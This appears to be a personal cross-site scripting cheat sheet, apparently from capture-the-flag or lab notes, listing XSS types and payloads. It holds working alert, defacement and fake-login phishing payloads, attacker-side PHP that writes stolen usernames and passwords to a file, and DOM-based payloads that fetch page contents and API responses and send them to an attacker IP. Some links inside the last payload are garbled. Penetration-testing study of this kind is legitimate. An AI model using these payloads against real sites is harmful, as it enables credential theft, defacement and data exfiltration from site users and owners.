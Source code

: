 
| Stored (Persistent)                                                | Reflective (None-Persistent)                            | DOM-Based                                                |
| ------------------------------------------------------------------ | ------------------------------------------------------- | -------------------------------------------------------- |
| User input is stored on the server, and is executed when retrieved | User input is process server side without being stored  | User input is processed client side without being stored |
### Payloads - Classics

```bash
<script>alert("XSS")</script>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
<img src="https://x.x.x.x">
```

### Defacing

```bash
<script>document.title = 'Title Text'</script>
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://x.x.x.x/images/image.svg"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Header Text</h1><p style="color: white">by <img src="https://x.x.x.x/images/image.svgg" height="25px" alt="ALT Text"> </p></center>'</script>
```

### Phishing

Fake login form:

```bash
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.87><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Attacker side - save as index.php:

```bash
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    #header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Start PHP server:

```bash
sudo php -S 0.0.0.0:80
```

Creds should be save in `creds.txt`
#### DOM-Based

The `#` signed is a client side parameter processed by the web browser

![[Pasted image 20241119153420.png]]

Does not appear in the View Page Source:

![[Pasted image 20241119153935.png]]

Does appear in the development tools:

![[Pasted image 20241119154106.png]]

Other Examples:

```bash
<script>
fetch("http://alert.htb/index.php?page=messages") //User goes to this site
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.180/?data=" + encodeURIComponent(data));
}) //send the page to the attacker
.catch(error => console.error("Error fetching the messages:", error));
</script> 
```



```bash
<img src='[http://10.10.14.180/missing',](http://10.10.14.180/missing',) onerror='fetch(`[http://10.129.133.59/api/info](http://10.129.133.59/api/info)`).then(res => res.text()).then(text => fetch(`[http://10.10.14.180/OK/$](http://10.10.14.180/OK/$){btoa(text)}`)).catch(err => fetch(`[http://10.10.14.180/OK/$](http://10.10.14.180/OK/$){btoa(err)}`))'></img>
```

On error, go to http://10.129.133.59/api/info
Take the output and base64 it and send to http://10.10.14.180/OK/$